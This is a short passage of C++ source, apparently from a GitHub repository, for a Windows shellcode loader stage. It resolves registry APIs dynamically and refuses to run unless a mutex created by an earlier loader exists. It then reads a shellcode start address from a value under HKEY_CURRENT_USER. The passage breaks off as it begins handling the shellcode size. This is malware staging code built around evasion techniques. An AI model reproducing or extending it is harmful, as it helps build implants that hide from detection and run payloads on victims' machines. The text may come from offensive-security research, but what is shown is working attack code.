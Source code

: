 ```cpp
#ifdef _DEBUG
        printfFunc("Advapi32 handle: %u\n", (int)advapi32dll);
#endif
    }
    RegOpenKeyFunc = (RegOpenKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegOpenKeyName);
    RegDeleteKeyFunc = (RegDeleteKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegDeleteKeyName);
    RegGetValueFunc = (RegGetValueType)GetSymbolAddress(advapi32dll, (LPCSTR)RegGetValueName);
    RegCloseKeyFunc = (RegCloseKeyType)GetSymbolAddress(advapi32dll, (LPCSTR)RegCloseKeyName);

#ifdef _DEBUG
    printfFunc("Located Advapi32 `RegOpenKey` at 0x%llx\n", (ULONG64)RegOpenKeyFunc);
    printfFunc("Located Advapi32 `RegDeleteKey` at 0x%llx\n", (ULONG64)RegDeleteKeyFunc);
    printfFunc("Located Advapi32 `RegGetValue` at 0x%llx\n", (ULONG64)RegGetValueFunc);
#endif


#ifdef DEBUG_SLEEP
    // Sync sleep
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP


    // The mutex should be open now if we passed through the loader, otherwise, we should not execute this
    HANDLE mutex = OpenMutexFunc(MUTEX_ALL_ACCESS, TRUE, (LPCWSTR)mutexName);
    if (mutex == NULL) {
#ifndef IGNORE_MUTEX
        return EXIT_FAILURE;
#endif
    }

    LONG result;

    ULONG64 startAddress = 0;
    DWORD dwSize = sizeof(startAddress);

#ifdef _DEBUG
    printfFunc("Calling `RegOpenKey`\n");
#endif
    result = RegOpenKeyFunc(HKEY_CURRENT_USER, (LPCWSTR)regKey, &hKey);
    if (result != ERROR_SUCCESS) {
#ifdef _DEBUG
        printfFunc("Key not found.\n");
#endif
    }

#ifdef _DEBUG
    printfFunc("Calling `RegGetValue`\n");
#endif

    value = (LPCTSTR)saValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &startAddress, &dwSize) == ERROR_SUCCESS) {
        if (0 == startAddress) {
            return EXIT_FAILURE;
        }
    }

#ifdef _DEBUG
    printfFunc("Using start address: 0x%llx\n", startAddress);
#endif

    UINT shellcodeSize = 0;
```